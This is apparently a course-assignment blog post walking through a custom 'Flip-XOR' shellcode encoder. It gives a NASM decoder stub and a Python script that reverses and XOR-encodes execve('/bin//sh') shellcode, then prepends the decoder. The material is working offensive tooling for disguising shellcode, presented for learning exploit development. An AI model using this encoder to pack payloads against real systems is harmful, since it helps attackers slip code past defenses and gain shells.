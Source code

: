 ```yaml
---
title:  Assignment 4
description: Create a Custom Encoder
order: 4
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

For this challenge we will be creating a custom shellcode encoder, specifically what I am calling a 'Flip-XOR' encoder.  This encoder will reverse the order of the shellcode, XOR each byte with a key, then prepend a decoder stub.  Let's get started!

The first challenge is decoding such a shellcode.  The following assembly file shows how we could accomplish this:

```nasm
; decoder.nasm
;  - Decode shellcode, then pass over execution

global _start

section .text
_start:

        jmp short call_decoder

decoder:
        pop esi                 ; Shellcode location
        xor ecx, ecx            ; Length of shellcode
        mov cl, 7               ; ...
        mov edi, esi            ; Decode location
        add edi, ecx            ; ...
        add edi, ecx            ; ...
        dec edi                 ; ...

decode:
        xor ebx, ebx            ; Clear carry register
        mov bl, byte [esi]      ; Decode
        xor bl, 0xAA            ; ...
        mov byte [edi], bl      ; Move
        mov byte [esi], 0x90    ; Replace with nop
        inc esi                 ; Loop
        dec edi                 ; ...
        loop decode             ; ...
        jmp short Shellcode     ; Pass over execution


call_decoder:
        call decoder
        Shellcode: db 0x2a, 0x67, 0xea, 0x69, 0x23, 0x6a, 0x9b
```

As you can see, we start with a *jmp call pop* method of retrieving the address of our shellcode, then we set up our decode function with that address and the length of the shellcode.  In addition to storing the shellcode address, we also store an address to the *end* of a duplicate range *after* the shellcode, where we'll store our decoded shellcode.

The decode function takes the byte at *esi*, XORs it with the key (0xAA), moves the result to *edi*, then replaces *esi* with a NOP (0x90).  The function then loops after incrementing *esi* and decrementing *edi*.  In graphical form, we transformed this...

```
                 ESI                                           EDI
|--decoder-stub--|---encoded-shellcode---|-----------?-----------|
EIP
```
... into this ...
```
                                      ESI EDI
|--decoder-stub--|-------nop-sled--------|---decoded-shellcode---|
                 EIP
```

Great!  The next step is to build the actual encoder, shown below:

```python
#!/usr/bin/python
# encoder.py
#  - Encode shellcode using 'Flip-XOR', then prepend decoder

import sys

if (len(sys.argv) != 1):
        print "[-] No inputs! Configure shellcode manually."
        sys.exit()

shellcode = (           # execve(/bin//sh)
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62"
"\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3"
"\x50\x89\xe2\x53\x89\xe1\x31\xc0\xb0\x0b"
"\xcd\x80"
)

key = 0xaa

length = len(shellcode)
print "Original Length: %d" % length

output = ""

# _start:
output += "\\xeb\\x1e"                  # jmp short call_decoder

# decoder:
output += "\\x5e"                       # pop esi
output += "\\x31\\xc9"                  # xor ecx, ecx
output += "\\xb1\\x%02x" % length       # mov cl, <length>
output += "\\x89\\xf7"                  # mov edi, esi
output += "\\x01\\xcf"                  # add edi, ecx
output += "\\x01\\xcf"                  # add edi, ecx
output += "\\x4f"                       # dec edi

# decode:
output += "\\x31\\xdb"                  # xor ebx, ebx
output += "\\x8a\\x1e"                  # mov bl, byte [esi]
output += "\\x80\\xf3\\x%02x" % key     # xor bl, <key>
output += "\\x88\\x1f"                  # mov byte [edi], bl
output += "\\xc6\\x06\\x90"             # mov byte [esi], 0x90
output += "\\x46"                       # inc esi
output += "\\x4f"                       # dec edi
output += "\\xe2\\xf0"                  # loop decode
output += "\\xeb\\x05"                  # jmp short Shellcode

# call_decoder:
output += "\\xe8\\xdd\\xff\\xff\\xff"   # call decoder

# Shellcode:
arr = bytearray(shellcode)
for i in range(0, length):
        # 'Flip-XOR' Encoding
        x = arr[length-1-i]
        y = x^key
        output += "\\x%02x" % y

newlength = len(output) / 4
print "Encoded Length: %d" % newlength
print "\"%s\"" % output
```

As you can see, our encoder not only encodes the provided *shellcode* with the provided *key*, it also prepends a decoder stub with the appropriate *length* and *key*.

A note on this encoder worth mentioning is that it **expands**, making use of the space after it.  This may or may not be a concern, depending on the application, but an improvement to this encoder might be eliminating the need to expand and just rearrange in-place.

<br>
{% include preamble.md %}

[&lt;&lt; Go Back]({{ site.baseurl }})
